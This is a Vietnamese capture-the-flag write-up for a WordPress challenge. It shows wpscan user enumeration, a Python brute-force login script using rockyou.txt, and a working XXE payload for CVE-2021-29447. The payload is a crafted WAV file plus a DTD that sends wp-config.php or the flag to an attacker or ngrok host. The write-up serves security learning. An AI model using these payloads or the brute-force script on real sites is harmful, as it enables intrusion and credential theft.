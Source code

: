 # KCSC BLOG

## Solution

Chall này liên quan đến WordPress, loay hoay trên web một lúc mình tìm thấy trang login và đông thời có hint weak password. Điều này cho thấy để đăng nhập được ta cần làm theo hướng brute force chứ không phải sqli. Trước tiên ta sẽ dùng wpscan tool để tìm các user .

Command : wpscan --url http://18.142.106.71/ --enumerate u

![img](img/img10.png)

Ta có hai user đó là *khaidang* và *dsmile* và lại kết hợp với hint ` Hãy quan tâm đến DangKhai` nên user admin sẽ là *khaidang* công việc tiếp theo đó là bruteforce password của user này .

```
import requests

url = "http://18.142.106.71/wp-login.php"

words = open('rockyou.txt','r').read().split('\n')

for pwd in words:
	print(pwd)
	data = {'log':'khaidang','pwd':'{}'.format(pwd),'wp-submit':'Log+In','redirect_to':'http%3A%2F%2F18.142.106.71%2Fwp-admin%2F&testcookie=1'}

	res = requests.post(url, data)
	if "The password you entered for the username"  not in res.text and pwd != '':
		print('Password is ' + pwd)
		break
```

![img](img/img11.png)

Sau khi đăng nhập vào trang admin, ta sẽ chú ý đến phần comment và tại đây có một vài comment được post lên và để ý có cả những comment xss tuy nhiên mình nghĩ nó mang tính lừa lọc cao . Mất một lúc không ra hướng mình quyết định tìm hiểu và biết web đang dùng version 5.6 (bản cũ) và tất nhiên rồi tiếp theo sẽ xem nó có đang dính CEV nào không . 

Trong quá trình dạo qua web trong phần media có thấy một file xxe.wav được tạo sẵn ở đó và kết quả google cũng cho thấy bản 5.6-5.7 đang dính CEV liên quan đến XXE .(https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)

Theo báo cáo thì có thể thấy lỗ hổng này xuất phát từ việc phân tích cú pháp XML xảy ra vấn đề dẫn đến các cuộc tấn công XXE làm rò rỉ các tệp nhạy cảm bằng phương pháp gọi đến các thực thể bên ngoài do attacker kiểm soát.

```
<!DOCTYPE myDoc [ <!ENTITY myExternalEntity SYSTEM "http://evil.com/script" > ]>
<myDoc>
    <foo>&myExternalEntity;</foo>
<myDoc>
```

WordPress có thư viện phương tiện cho phép người dùng đã xác thực tải lên các tệp phương tiện sau đó có thể được sử dụng trong các bài đăng trên blog của họ. Để trích xuất thông tin meta từ các tệp phương tiện này, ví dụ: tên hoặc tiêu đề nghệ sĩ,... ,WordPress sử dụng thư viện *getID3* . Một số siêu dữ liệu này được phân tích cú pháp ở dạng XML. Tại đây, một lỗ hổng XXE có thể xảy ra .

Cụ thể trong trường hợp này bằng cách tải lên một tệp .wav , ta có thể tiến hành attack XXE.

POC:

```
payload.wav:

RIFFXXXXWAVEBBBBiXML<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://attacker-url.domain/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>>

xxe.dtd:

<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker-url.domain/?%data;'>"> 
```

Đầu tiên tôi sẽ dựng một server bằng ngrok chứa file xxe.dtd:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=../flag">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'https://2ff1645a2a30.ngrok.io/?%data;'>"> 
```

Tiếp theo là tải lên file payload.wav (file này mk chỉ edit phần web attacker từ file xxe.wav có sẵn trên trang media) , sau khi tải thành công sẽ có một request bao gồm content file cần đọc gửi đến server .

![img](img/img12.png)

Decode base64 để lấy flag :

![img](img/img13.png)

## Flag

KCSC{oh_CVE-2021-29447_______:)} 

## Document

https://blog.sonarsource.com/wordpress-xxe-security-vulnerability





